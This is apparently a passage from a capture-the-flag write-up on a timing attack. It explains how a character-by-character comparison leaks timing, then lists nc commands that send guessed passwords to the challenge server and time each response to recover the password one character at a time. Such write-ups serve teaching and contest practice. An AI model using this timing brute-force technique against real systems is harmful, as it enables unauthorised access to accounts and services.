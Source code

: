 When guessing the number to enter the building for a 4 digit code you'd need 10000 attempts (0000-9999) in the absolute worst case.  
But if it is vulnerable to a timing attack you'd only need 40 attempts at most (10 for each digit), significantly less.

Since this example describes an object you'd have physical access to, your time measurements could be very precise. The solution for the manufacturer would be to program its device to store all the entered numbers in a single number and compare them at the same time, which wouldn't cause a time variation when comparing a wrong sequence to a slightly less wrong sequence.

##### Our attack
Our attack will work the same way as the keypad example. We'll start with a wrong password aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, and change one character at a time until it takes longer to respond.

We could easily write a script to do this, but in this case it is so simple it might be easier to just do it manually than bother writing something.

We'll use the time command to measure the time it takes for the server to close the connection, and while we're doing it manually, we can still do it in bulk. Since we know the password is lowercase alphanumerical I simply pasted the following commands into my terminal in 1 go.

```bash
time ( echo "0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "1aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "2aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "3aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "4aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "5aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "6aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "7aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "8aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "9aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "baaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "caaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "daaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "eaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "faaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "gaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "haaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "iaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "jaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "kaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "laaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "maaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "oaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "paaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "qaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "raaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "saaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "taaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "uaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "vaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "waaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "xaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "yaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "zaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
```
(NOTE: the challenge server might not be available or change in the future, please check the [archive](https://archive.aachen.ccc.de/junior.35c3ctf.ccc.ac/))
